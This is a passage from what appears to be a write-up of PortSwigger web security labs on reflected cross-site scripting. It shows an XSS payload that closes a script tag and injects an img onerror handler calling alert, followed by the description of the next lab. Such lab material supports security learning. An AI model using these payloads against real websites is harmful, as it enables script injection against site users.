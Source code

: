 
I used the payload:

```
';</script><img src=x onerror=alert(1)><script>var a='a
```





![img](images/Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20single%20quote/3.png)
![img](images/Reflected%20XSS%20into%20a%20JavaScript%20string%20with%20single%20quote/4.png)

22 Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped
======================================================================================================================

This lab contains a reflected cross-site scripting vulnerability in the search
query tracking functionality where angle brackets and double are HTML encoded
and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the
JavaScript string and calls the alert function.

References:

-   https://portswigger.net/web-security/cross-site-scripting/contexts
